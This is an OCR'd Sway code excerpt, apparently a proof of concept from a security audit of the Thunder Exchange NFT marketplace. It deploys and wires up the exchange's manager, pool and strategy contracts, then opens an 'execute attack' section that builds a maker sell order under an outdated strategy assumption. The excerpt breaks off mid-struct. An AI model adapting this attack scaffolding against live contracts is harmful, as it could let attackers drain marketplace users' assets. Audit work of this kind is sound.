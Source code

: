 ```sway
    let asset_manger_contract_id = ContractId::from(asset_manager::CONTRACT_ID);

    let fixed_strategy = abi(ExecutionStrategy, strategy_fixed_price_sale::CONTRACT_ID);
    fixed_strategy.initialize(exchange_contract_id);

    let execution_manager = abi(ExecutionManager, execution_manager::CONTRACT_ID);
    execution_manager.initialize();

    let royalty_manager = abi(RoyaltyManager, royalty_manager::CONTRACT_ID);
    royalty_manager.initialize();

    //get contract IDs 

    let execution_manger_contract = ContractId::from(execution_manager::CONTRACT_ID);
    let royalty_manger_contract = ContractId::from(royalty_manager::CONTRACT_ID);
    let pool_contract = ContractId::from(pool::CONTRACT_ID);
    let stratgey_fixed = ContractId::from(strategy_fixed_price_sale::CONTRACT_ID);


    let asset_to_add = AssetId::base();
    
    asset_mngr.add_asset(asset_to_add);


    let asset_id = AssetId::bits(asset_to_add);


    let pool = abi(Pool, pool::CONTRACT_ID);
    pool.initialize(exchange_contract_id, asset_manger_contract_id);

    let caller = Address::from(0xf8f8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07);

    //set functions

    execution_manager.add_strategy(stratgey_fixed);

    thunder_exch.set_asset_manager(asset_manger_contract_id);
    thunder_exch.set_pool(pool_contract);
    thunder_exch.set_execution_manager(execution_manger_contract);
    // thunder_exch.set_protocol_fee_recipient(Identity::Address::from(0xf9b8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07)); // diff from maker
    thunder_exch.set_royalty_manager(royalty_manger_contract);

    //----------------------execute attack --------------------------------//


    // STEP 1: we assume that the order below is created when fixed strategy version 1 deployed, since sway does not allow
    //         to create two contracts using same contract ID as we did above in line 55. 

    let caller = Address::from(0xf9b8b6283d7fa5b672b530cbb84fcccb4ff8dc40f8176ef4544ddb1f1952ad07);

    let extra_parameter = ExtraParams {
        extra_address_param: Address::zero(),
        extra_contract_param: ContractId::zero(),
        extra_u64_param: 0u64
    };

    let maker_order = MakerOrderInput {
     side: Side::Sell,
     maker:caller,
     collection: ContractId::from(0x7777777777777777777777777777777777777777777777777777777777777777),
```